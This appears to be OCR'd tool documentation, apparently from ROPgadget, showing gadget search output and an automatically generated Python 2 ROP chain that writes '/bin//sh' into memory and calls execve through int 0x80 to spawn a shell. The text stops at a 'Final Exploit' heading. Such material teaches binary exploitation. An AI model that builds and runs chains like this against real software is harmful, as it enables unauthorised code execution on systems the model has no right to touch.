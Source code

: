             [+] Gadget found: 0x8049021 pop ebx ; ret
            [+] Gadget found: 0x80737f2 pop ecx ; pop ebx ; ret
            [+] Gadget found: 0x80737cb pop edx ; ret
    
    - Step 4 -- Syscall gadget
    
            [+] Gadget found: 0x804a533 int 0x80
    
    - Step 5 -- Build the ROP chain
    
            #!/usr/bin/env python2
            # execve generated by ROPgadget
    
            from struct import pack
    
            # Padding goes here
            p = ''
    
            p += pack('<I', 0x080737cb) # pop edx ; ret
            p += pack('<I', 0x080df060) # @ .data
            p += pack('<I', 0x080ad7c6) # pop eax ; ret
            p += '/bin'
            p += pack('<I', 0x08057c45) # mov dword ptr [edx], eax ; ret
            p += pack('<I', 0x080737cb) # pop edx ; ret
            p += pack('<I', 0x080df064) # @ .data + 4
            p += pack('<I', 0x080ad7c6) # pop eax ; ret
            p += '//sh'
            p += pack('<I', 0x08057c45) # mov dword ptr [edx], eax ; ret
            p += pack('<I', 0x080737cb) # pop edx ; ret
            p += pack('<I', 0x080df068) # @ .data + 8
            p += pack('<I', 0x08057200) # xor eax, eax ; ret
            p += pack('<I', 0x08057c45) # mov dword ptr [edx], eax ; ret
            p += pack('<I', 0x08049021) # pop ebx ; ret
            p += pack('<I', 0x080df060) # @ .data
            p += pack('<I', 0x080737f2) # pop ecx ; pop ebx ; ret
            p += pack('<I', 0x080df068) # @ .data + 8
            p += pack('<I', 0x080df060) # padding without overwrite ebx
            p += pack('<I', 0x080737cb) # pop edx ; ret
            p += pack('<I', 0x080df068) # @ .data + 8
            p += pack('<I', 0x08057200) # xor eax, eax ; ret
            p += pack('<I', 0x08080c6a) # inc eax ; ret
            p += pack('<I', 0x08080c6a) # inc eax ; ret
            p += pack('<I', 0x08080c6a) # inc eax ; ret
            p += pack('<I', 0x08080c6a) # inc eax ; ret
            p += pack('<I', 0x08080c6a) # inc eax ; ret
            p += pack('<I', 0x08080c6a) # inc eax ; ret
            p += pack('<I', 0x08080c6a) # inc eax ; ret
            p += pack('<I', 0x08080c6a) # inc eax ; ret
            p += pack('<I', 0x08080c6a) # inc eax ; ret
            p += pack('<I', 0x08080c6a) # inc eax ; ret
            p += pack('<I', 0x08080c6a) # inc eax ; ret
            p += pack('<I', 0x0804a533) # int 0x80
**Final Exploit**
